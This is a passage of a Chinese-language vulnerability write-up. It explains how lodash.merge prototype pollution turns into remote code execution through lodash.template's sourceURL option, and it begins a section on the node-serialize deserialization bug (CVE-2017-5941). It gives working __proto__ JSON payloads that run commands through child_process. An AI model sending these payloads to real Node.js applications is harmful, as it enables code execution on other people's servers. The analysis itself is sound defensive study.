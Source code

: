 问题出在了lodashs.merge函数这里，这个函数存在原型链污染漏洞。但是光存在漏洞还不行，我们得寻找到可以利用的点。因为通过漏洞可以控制某一种实例对象原型的属性，所以我们需要去寻找一个可以被利用的属性。

页面最终会通过lodash.template进行渲染，跟踪到lodash/template.js中。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200205154547-85eb7d92-47eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200205154547-85eb7d92-47eb-1.png)

如图可以看到options是一个对象，sourceURL是通过下面的语句赋值的，options默认没有sourceURL属性，所以sourceURL默认也是为空。

```
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
```

如果我们能够给options的原型对象加一个sourceURL属性，那么我们就可以控制sourceURL的值。

继续往下面看，最后sourceURL传递到了Function函数的第二个参数当中：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200205154600-8dc8972a-47eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200205154600-8dc8972a-47eb-1.png)

```
var result = attempt(function() {
    return Function(importsKeys, sourceURL + 'return ' + source)
      .apply(undefined, importsValues);
  });
```

通过构造chile_process.exec()就可以执行任意代码了。

最终可以构造一个简单的Payload作为传递给主页面的的POST数据(windows调用计算器)：

```
{"__proto__":{"sourceURL":"\nglobal.process.mainModule.constructor._load('child_process').exec('calc')//"}}
```

(这里直接用require会报错：ReferenceError: require is not defined

p神给了一个更好的payload：

```
{"__proto__":{"sourceURL":"\nreturn e=> {for (var a in {}) {delete Object.prototype[a];} return global.process.mainModule.constructor._load('child_process').execSync('id')}\n//"}}
```

## node-serialize反序列化RCE漏洞(CVE-2017-5941)

漏洞出现在node-serialize模块0.0.4版本当中，使用`npm install node-serialize@0.0.4`安装模块。

- 了解什么是IIFE：

[IIFE（立即调用函数表达式）](https://developer.mozilla.org/zh-CN/docs/Glossary/立即执行函数表达式)是一个在定义时就会立即执行的 JavaScript 函数。

IIFE一般写成下面的形式：

```
(function(){ /* code */ }());
// 或者
(function(){ /* code */ })();
```
